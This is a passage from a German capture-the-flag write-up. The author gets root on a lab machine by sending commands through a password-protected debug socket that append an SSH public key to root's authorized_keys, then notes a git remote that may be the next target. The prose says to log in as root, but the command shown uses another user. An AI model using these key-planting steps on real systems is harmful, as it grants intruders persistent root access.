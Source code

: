 ```.shell!
stormcloak@Riften:~$ socat - UNIX-CONNECT:/run/cloak.sock
Welcome to the debug socket!
Please provide your password: snakesnakefish!
password accepted!
enter command: echo "<public_key>" >> /root/.ssh/authorized_keys
command executed!
enter command: chmod 600 /root/.ssh/authorized_keys
command executed!
```

Über `ssh` mit `root@192.168.22.65` verbinden:

```.shell!
ssh stormcloak@192.168.22.65
```

Als root steht nun auch eine voll funktionsfühige BASH-shell zur Verfügung statt rbash, wie beim Benutzer stormcloak.


## Hinweise für CTF4?

In `/home/stormcloak/.git/config` wurde der vermutliche Name des nächsten Ziels gefunden:

```yaml!
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = git@gitlab.robstargames.com:stormcloak/list-of-spies.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

Die Domäne gitlab.robstargames.com war bis jetzt noch nie ein Ziel, daher die Annahme, dass dies das nächste Ziel sein könnte.
